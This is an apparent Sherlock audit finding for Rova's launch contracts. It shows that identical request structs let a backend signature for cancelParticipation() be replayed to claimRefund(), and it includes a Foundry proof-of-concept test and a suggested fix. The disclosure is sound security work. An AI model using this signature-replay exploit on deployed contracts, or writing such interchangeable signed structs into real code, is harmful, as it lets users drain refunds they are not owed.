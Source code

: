 Cheerful Lemon Leopard

Medium

# Signature reuse possible between cancelParticipation() and claimRefund()

## Description
The structs for `CancelParticipationRequest` and `ClaimRefundRequest` [are identical](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Types.sol#L108-L134):
```js
    struct CancelParticipationRequest {
        uint256 chainId;
        bytes32 launchId;
        bytes32 launchGroupId;
        bytes32 launchParticipationId;
        bytes32 userId;
        address userAddress;
        uint256 requestExpiresAt;
    }

    struct ClaimRefundRequest {
        uint256 chainId;
        bytes32 launchId;
        bytes32 launchGroupId;
        bytes32 launchParticipationId;
        bytes32 userId;
        address userAddress;
        uint256 requestExpiresAt;
    }
```

This can lead to the following scenario:
1. User gets signature approved from backend for `cancelParticipation()`
2. However, the user does not call the function at this point of time
3. After some time, `OPERATOR_ROLE` calls `finalizeWinners()` with list of winners. User is not one of the winners.
4. `MANAGER_ROLE` then calls `setLaunchGroupStatus()` to mark launchGroup as COMPLETED
5. User back-runs `setLaunchGroupStatus()` and calls `claimRefund()`. User is able to call `claimRefund()` as its [modifier check](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L478) will pass which validates that status is `LaunchGroupStatus.COMPLETED`. The user's approved signature from `cancelParticipation()` can be used here due to the structs being identical. User gets their `currencyAmount` refunded.

Constraint to the attack: the additional condition capable of making this attack infeasible is if the `cancelParticipation()` signature approved by the backend has a `requestExpiresAt` value smaller than the `block.timestamp` of `setLaunchGroupStatus()` being called.

## Impact
Signature reuse across functions/intended actions.

## Proof of Concept
Add this file as `test/SignatureReuse.t.sol` and run to see it pass:
```js
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity ^0.8.22;

import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";
import {Test} from "forge-std/Test.sol";
import {LaunchTestBase, IERC20Events} from "./LaunchTestBase.t.sol";
import {Launch} from "../src/Launch.sol";
import {
    LaunchGroupSettings,
    LaunchGroupStatus,
    ParticipationRequest,
    CancelParticipationRequest,
    ClaimRefundRequest,
    ParticipationInfo
} from "../src/Types.sol";

contract SignatureReuse is Test, Launch, LaunchTestBase, IERC20Events {
    LaunchGroupSettings public settings;

    function setUp() public {
        _setUpLaunch();

        // Setup initial participation
        settings = _setupLaunchGroup();
        ParticipationRequest memory request = _createParticipationRequest();
        bytes memory signature = _signRequest(abi.encode(request));

        vm.startPrank(user1);
        currency.approve(
            address(launch), _getCurrencyAmount(request.launchGroupId, request.currency, request.tokenAmount)
        );
        launch.participate(request, signature);

        vm.stopPrank();
    }

    function test_SignatureReuseAttack() public {
        // User gets valid signature for cancelParticipation (but doesn't use it yet)
        CancelParticipationRequest memory cancelRequest = _createCancelParticipationRequest();
        bytes memory cancelSignature = _signRequest(abi.encode(cancelRequest));

        vm.startPrank(manager);
        launch.setLaunchGroupStatus(testLaunchGroupId, LaunchGroupStatus.COMPLETED);
        vm.stopPrank();

        // User back-runs setLaunchGroupStatus() by reusing cancelParticipation signature for claimRefund
        vm.startPrank(user1);
        // Create claim refund request with same parameters as cancel request
        ClaimRefundRequest memory claimRequest = ClaimRefundRequest({
            chainId: cancelRequest.chainId,
            launchId: cancelRequest.launchId,
            launchGroupId: cancelRequest.launchGroupId,
            launchParticipationId: cancelRequest.launchParticipationId,
            userId: cancelRequest.userId,
            userAddress: cancelRequest.userAddress,
            requestExpiresAt: cancelRequest.requestExpiresAt
        });

        // Use the cancel signature for claim request
        launch.claimRefund(claimRequest, cancelSignature);
        vm.stopPrank();
    }
}
```

## Mitigation
Include some unique field inside either of the structs so that the signature generated by `keccak256(abi.encode(request))` is unique and not inter-transferable.